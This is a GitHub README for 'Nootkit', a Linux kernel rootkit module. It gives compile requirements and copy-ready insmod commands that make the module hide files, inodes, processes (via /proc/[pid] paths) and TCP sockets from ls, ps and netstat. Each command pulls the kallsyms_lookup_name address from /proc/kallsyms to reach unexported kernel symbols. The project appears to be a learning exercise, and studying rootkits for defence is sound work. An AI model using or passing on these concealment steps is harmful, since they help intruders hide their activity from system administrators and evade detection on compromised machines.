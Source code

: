 # Nootkit

Noot noot?
![noot?](https://i.kym-cdn.com/entries/icons/original/000/040/642/terrifiednootnoot.jpg)

A basic rootkit with resource hiding capabilities.

You are welcome to browse the [story-oriented documentation](docs/section-1.md)
or give it a go.

## Compiling

Currently only Ubuntu 22 LTS kernels of version 5.15.0-76 are supported -
and to compile the module you'll have to get the corresponding headers as they aren't
included.

Headers are assumed to be located at `kernel-headers/linux-headers-5.15.0-76-generic`,
in the same exact structure as they are present on Ubuntu machines at
`/lib/modules/5.15.0-76-generic`.

## Usage

`nootkit` can receive a configuration through module parameters -
which are at the moment not exposed after the module has been loaded.

An example `insmod` command to set certain filenames and inodes to be hidden
from common usermode APIs is:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,bigboy \
hide_inodes=138210,17635,1337
```

### Configuration

The kernel space address of `kallsyms_lookup_name` must be provided to the module at load time,
as it is used to locate other unexported symbols.

Possible module arguments are:

- `kallsyms_lookup_name`: Must be present, can be obtained via `/proc/kallsyms` as shown above
- `hide_filenames`: Comma-separated list of file names and absolute paths to hide from usermode dir listings
- `hide_inodes`: Comma-separated list of inode numbers to hide from usermode dir listings
- `hide_sockets`: Comma-separated list of connection description strings following the connection format (explained
  [below](#connection-config-format)) - IPv4 socket matching this filter will be hidden from `netstat` commands.

You are also welcome to check out the [makefile](Makefile) for some semi-automatic tests.

#### Connection Config Format

Pretty simple really, just follow this template:

```txt
PROTO = 1; LOCAL = 0.0.0.0/0.0.0.0:1300-1400; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;
```

Where `PROTO` can be:

- `1`: TCP

(That's it for now)

`LOCAL` describes the local IP/Mask:PortRangeStart-PortRangeEnd, and `FOREIGN` does the same for... The foreign address.

Port ranges are *inclusive*. Spaces aren't mandatory anywhere.

## Features

### Hiding Files From Dir Listings

Examples:

#### Hide all files named `hello`, no matter the path, from dir listings

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello
```

#### In addition, hide the paths `/root/bigboy` and `/home/john/wayne`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,/root/bigboy,/home/john/wayne
```

#### Hide all files with an inode number of `524290`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=524290
```

### Hiding Processes From Various Utilities

Hiding processes from various utilities including `ps` can be done by hiding the path `/proc/[pid]` corresponding
to the process. There is no specific API at the moment specific to hiding processes.

For example:

#### Hide the processes with PIDs `7047` and `682` from `ps`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=/proc/7047,/proc/682
```

### Hiding TCP Sockets

Sockets can be hidden by specifying their properties in the connection format shown [above](#connection-config-format).

Example:

#### Hide all sockets bound to local TCP ports 10 to 30, on the local address 192.168.122.122

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_sockets=\"PROTO = 1; LOCAL = 192.168.122.122/255.255.255.255:10-30; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;\""
```
